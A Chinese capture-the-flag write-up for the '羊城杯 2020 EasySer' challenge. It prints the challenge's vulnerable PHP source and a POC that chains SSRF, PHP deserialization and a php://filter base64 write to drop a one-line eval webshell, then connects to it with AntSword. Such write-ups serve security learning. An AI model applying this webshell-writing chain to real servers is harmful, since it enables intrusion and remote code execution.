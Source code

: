 # 原创
：  [羊城杯 2020]EasySer

# [羊城杯 2020]EasySer

#### [羊城杯 2020]EasySer

## EasySer

### 考点

> 
1） PHP 基础代码审计<br/> 2） SSRF本地文件读取<br/> 3） 反序列化写入webshell，绕过死亡绕过


### 思路

> 
1） 源码写了不安全协议从本地，想到http 和127.0.0.1<br/> 2） 读源码看反序列化，写入shell<br/> 3） 伪协议base64绕过die()，rot13等等都可以


### Payload

> 
buuctf上做这道题时，页面让我一脸茫然，一度怀疑环境坏了…


> 
没啥好利用的东西，用脚本扫一下敏感信息发现存在robots.txt，提示我们`/star1.php`


> 
F12查看提示我们用不安全的协议读取ser.php文件，利用`http://127.0.0.1/star1.php`试试，得到ser.php的源码


```
&lt;?php
error_reporting(0);
if ( $_SERVER['REMOTE_ADDR'] == "127.0.0.1" ) {
    highlight_file(__FILE__);
} 
$flag='{Trump_:"fake_news!"}';

class GWHT{
    public $hero;
    public function __construct(){
        $this-&gt;hero = new Yasuo;
    }
    public function __toString(){
        if (isset($this-&gt;hero)){
            return $this-&gt;hero-&gt;hasaki();
        }else{
            return "You don't look very happy";
        }
    }
}
class Yongen{ //flag.php
    public $file;
    public $text;
    public function __construct($file='',$text="") {
        $this -&gt; file = $file;
        $this -&gt; text = $text;
        
    }
    public function hasaki(){
        $d   = '&lt;?php die("nononon");?&gt;';
        $a= $d. $this-&gt;text;
         @file_put_contents($this-&gt; file,$a);
    }
}
class Yasuo{
    public function hasaki(){
        return "I'm the best happy windy man";
    }
}

```

> 
构造POC链，我们利用伪协议将一句话木马写入文件中


```
&lt;?php
class GWHT{
	public $hero;
}
class Yongen{
    public $file;
    public $text;
}
$door = new GWHT();
$door-&gt;hero = new Yongen();
$door-&gt;hero-&gt;file = 'php://filter/write=string.strip_tags|convert.base64-decode/resource=shell.php';
$door-&gt;hero-&gt;text = 'PD9waHAgZXZhbCgkX1BPU1RbJ2NtZCddKTs/Pg==';
echo urlencode(serialize($door))."\n";
?&gt;

```

> 
蚁剑测试连接shell.php


> 
获取flag，这里的flag并不是根目录下的/flag

